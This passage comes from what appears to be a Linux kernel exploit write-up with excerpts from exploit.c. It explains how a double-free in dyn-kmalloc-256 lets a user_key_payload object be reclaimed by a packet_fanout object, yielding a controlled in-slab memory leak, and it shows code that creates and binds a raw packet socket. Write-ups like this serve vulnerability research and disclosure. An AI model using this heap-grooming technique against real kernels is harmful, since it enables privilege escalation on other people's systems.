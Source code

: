 - `struct packet_fanout` object has many interesting pointers.
- `struct user_key_payload` object can be allocated on dyn-kmalloc-32 -> dyn-kmalloc-8192.
- `struct packet_fanout` object can be allocated on dyn-kmalloc-256 -> dyn-kmalloc-8192.
- The double free primitive can only be triggered on dyn-kmalloc-8 -> dyn-kmalloc-256. Therefore, dyn-kmalloc-256 is the target heap.
- The `id` field of `struct packet_fanout` object has the same offset with the `datalen` field of `struct user_key_payload` object.
- The `id` field of `struct packet_fanout` object is controllable.
- Idea: set `id` field of `struct packet_fanout` object to `256 - sizeof(struct user_key_payload)`. This ensure when the exploit leverage `struct user_key_payload` object to leak, i can guaranteed it only read "in object" and never touch out of slab region which will make mitigation kernel crash.

This step is implemented by function `overlap_user_key_payload_with_packet_fanout` that do the following things:
  1. Create and bind packet socket.
  2. Use the double free primitive to free `struct user_key_payload` object.
  3. Reclaim with `struct packet_fanout` object.
  4. Verify overlap success.
  5. Save stuffs.

### Step3.1: Create and bind packet socket
- [exploit.c#L343](./exploit.c#L343):

```c
int packet_socket_fd = packet_socket_create_and_bind();
if (packet_socket_fd < 0)
  return false;
```

- [exploit.c#L300](./exploit.c#L300):

```c
int packet_socket_create_and_bind(void)
{
  int fd = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
  if (fd < 0) {
    perror("socket(AF_PACKET, SOCK_RAW)");
    return -1;
  }

  struct sockaddr_ll addr;
  memset(&addr, 0, sizeof(addr));
  addr.sll_family = AF_PACKET;
  addr.sll_ifindex = if_nametoindex("lo");

  if (bind(fd, (struct sockaddr*)&addr, sizeof(addr)) < 0) {
    perror("bind packet socket at lo interface");
    close(fd);
    return -1;
  }

  return fd;
}
```
